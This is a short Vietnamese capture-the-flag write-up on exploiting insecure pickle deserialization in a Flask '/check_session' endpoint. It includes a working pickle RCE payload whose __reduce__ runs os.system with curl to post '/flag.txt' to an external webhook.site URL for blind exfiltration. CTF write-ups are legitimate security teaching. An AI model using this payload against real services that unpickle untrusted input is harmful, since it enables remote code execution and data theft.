 # Escape the session

![alt text](image.png)

Bài này khá hay và thú vị, sau khi đọc code thì mình phát hiện nó liên quan đến Python deserializes data sử dụng module pickle

Đoạn code quan trọng

```python
data = base64.b64encode(pickle.dumps(info)).decode('utf8')
```

Đoạn này có nhiệm vụ serialize dữ liệu chúng ta nhập vào, tuy nhiên nó không quan trọng lắm

```python
@app.route('/check_session', methods=['GET', 'POST'])
@limiter.limit("5/second")
def check_session():
    if request.method == 'GET':
        return render_template('check_session.jinja2')
    elif request.method == 'POST':
        session = request.form.get('session', '')
        try:
            info = pickle.loads(base64.b64decode(session))
        except:
            info = "Invalid session!"
        return render_template('check_session.jinja2', info=info)
```

Chúng ta cần quan tâm đến đoạn code này có nhiệm vụ deserialize từ một đoạn đã serialize mà không có lớp bảo vệ, ở đây chúng ta chỉ cần sử dụng đến /check_session 

![alt text](image-1.png)

```python
import pickle
import base64

class PickleRCE(object):
    def __reduce__(self):
        import os
        return (os.system,('curl --data "@/flag.txt" https://webhook.site/8a273071-a70b-442b-a573-cf5e8581df43',))

payload = base64.b64encode(pickle.dumps(PickleRCE()))  # Crafting Payload
print(payload)
```

Đây là đoạn mã dùng để tạo ra session, lí do mình dùng webhook là vì lúc đầu mình RCE trực tiếp thì không thấy nó hiển thị ra cái gì, vì vậy mình thực hiện nó ở dụng blind

![alt text](image-2.png)
